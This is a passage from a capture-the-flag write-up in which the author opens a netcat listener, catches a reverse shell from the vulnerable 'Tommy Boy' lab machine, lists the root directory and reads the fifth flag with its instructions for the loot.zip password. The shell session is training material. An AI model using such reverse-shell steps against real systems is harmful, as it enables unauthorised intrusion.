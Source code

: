 I first set up a netcat listener and then we ran with the browser our reverse shell.

![](/assets/images/tommyboy/screenshot-26.png)

Finally I got a reverse shell, in the path /.5.txt found the flag number 5, but we need the fourth flag to complete the challenge and so we would join all flags and unzip the loot.zip file.

```console
root@kali:~$ nc -vlnp 443                                    
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.149] 49788
Linux CallahanAutoSrv01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 10:57:10 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (1295): Inappropriate ioctl for device
bash: no job control in this shell
www-data@CallahanAutoSrv01:/$ ls -la
ls -la
total 105
drwxr-xr-x  25 root     root      4096 Jul 15  2016 .
drwxr-xr-x  25 root     root      4096 Jul 15  2016 ..
-rwxr-x---   1 www-data www-data   520 Jul  7  2016 .5.txt
drwxr-xr-x   2 root     root      4096 Jul  6  2016 bin
drwxr-xr-x   4 root     root      1024 Jul 14  2016 boot
...
www-data@CallahanAutoSrv01:/$ cat .5.txt
cat .5.txt
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!!
OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!!

Flag data: Buttcrack

Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk.
So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you"
you would create this blob:

hithereyou

Do this for ALL the flags sequentially, and this password will open the loot.zip in Big Tom's folder and you can call the box PWNED.
```

